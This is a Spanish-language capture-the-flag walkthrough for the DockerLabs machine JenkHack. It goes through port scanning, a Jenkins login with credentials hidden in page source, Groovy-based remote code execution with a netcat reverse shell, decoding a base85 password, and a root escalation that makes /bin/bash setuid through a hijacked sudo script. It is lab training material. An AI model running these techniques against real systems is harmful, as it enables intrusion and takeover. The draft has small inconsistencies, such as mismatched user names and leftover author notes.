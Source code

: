 ```yaml
---
title: JenkHack - DockerLabs
published: true
categories: DockerLabs
---
```


| OS     | Dificultad  | Creator           |
| ------ | ----------- | ----------------- |
| Linux  |  Fácil      | d1se0        |

# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo.

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports
```
- `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/21639354-5bbb-44b3-b41c-fd3ffaadc979)

### Puertos Descubiertos

Durante el escaneo, descubrimos los siguientes puertos abiertos:
- `80` (HTTP)
- `443` (HTTPS)
- `8080` (Http-Proxy)

Realizamos un escaneo más detallado para obtener información sobre los servicios en estos puertos:

```bash
nmap -p443,80,8080 -sCV 172.17.0.2 -oG targeted
```

![image](https://github.com/user-attachments/assets/b1e44dfc-dde2-400d-bbe4-3ef4d940bf05)

# Exploración Web

Vemos que tenemos dos paginas la primera en el puerto 80 que es una pagina de informacion como un blog:

![image](https://github.com/user-attachments/assets/9d9cdd02-5038-4d18-837f-52e4b965a1e2)

A simple vista no se ve nada, solo vemos que nos habla cobre el servicio de jenkins que antes hemos visto en el puerto 8080.

Para investigar, utilizamos `Gobuster` y exploramos directorios en el sitio:

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir`: Realiza un escaneo de directorios.
- `-u http://172.17.0.2/`: URL objetivo.
- `-w`: Diccionario a utilizar.
- `-x`: Extensiones de archivo para buscar.

![image](https://github.com/user-attachments/assets/50211da7-4147-47f0-9499-a95c4271cf3e)

No encontramos nada interesante, por lo que probaremos en el 8080, el cual es un panel de login de jenkis.

![image](https://github.com/user-attachments/assets/da625272-5db9-4715-9e3c-99f36ea568c2)

Investigando vemos como hay dos palabras ocultas en el puerto 80 en al codigo fuente:
jenkins-admin y cassandra, por lo que lo porbamos.

![image](https://github.com/user-attachments/assets/cc39aff8-f04f-40df-8377-02b9cabf6ead)

Estamos dentro:

![image](https://github.com/user-attachments/assets/cba550de-aae7-4208-b9b2-7a6cab670c41)

Ahora haremos un RCE a traves de groovy [HackTricks](https://cloud.hacktricks.xyz/es-cloud/pentesting-ci-cd/jenkins-security/jenkins-rce-with-groovy-script).

```bash
https://cloud.hacktricks.xyz/es-cloud/pentesting-ci-cd/jenkins-security/jenkins-rce-with-groovy-script
```
Simultaneamente escuhamos en el puerto 4444 por netcat, y ya estariamos dentro.

![image](https://github.com/user-attachments/assets/ddd22f41-fa09-46b7-8ea5-632a30c452ab)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```
ya dentro vemos a traves del recurso llamado linpeas.sh, que hay "Explica que es esto (searching root files in home dirs)". El cual tiene lo siguiente:

![image](https://github.com/user-attachments/assets/617e5fb1-1b67-4c8a-a44b-75c65b6935d4)

Vemos que el usuario jenkhack contiene un note.txt vamos a ver que contiene.

```bash
jenkhack:C1V9uBl8!'Ci*`uDfP
```

Parece una contraseña para el usuario jenhack , como no sabemos si esta cifrado , vamos a usar [CyberChef]() ya que es una pagina muy util.

![image](https://github.com/user-attachments/assets/26b27942-33fc-4849-8b6d-3d9839703df1)

Vemos que esta en base85 y la contraseña es `jenkinselmejor`.

Accediendo a ese usuario vemos que ya tenemos acceso.

```bash
su jenhack
```

![image](https://github.com/user-attachments/assets/f72b6901-2b56-42d2-a811-8b6bd8f743f8)


Al ejecutar `sudo -l`, notamos que tiene permisos para ejecutar `bash` como `root`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

```bash
sudo /usr/local/bin/bash -p
```

Siempre que ejecutamos el script salta lo siguiente:

```bash
Welcome to the bash application!
Running command...
This is the bash script running.
```

Por lo que comporbando el archivo vemos que llama a una ruta el opt:

![image](https://github.com/user-attachments/assets/5a8d5768-4e4c-46cb-a6e9-be5943a4c396)

Asi que borramos ese archivo y generamos el nuestro con el cual cambairmos los permiso de bash con chmod u+s /bin/bash. (Explica esto).

![image](https://github.com/user-attachments/assets/38221ef3-2755-497d-abb4-19f6c237671e)

le damos permisos al script.
```bash
chmod +x bash.sh 
```

Si sale el mensaje de funciona es que nos pilla bien el script.

![image](https://github.com/user-attachments/assets/5c4f1309-102c-4473-8620-4043d22f4b35)


Solo queda ejecutar lo siguiente:

```bash
sudo /bin/bash -p
```

Ya somos root.

![image](https://github.com/user-attachments/assets/9992159c-9533-4cc0-84cf-18b0b1477be3)

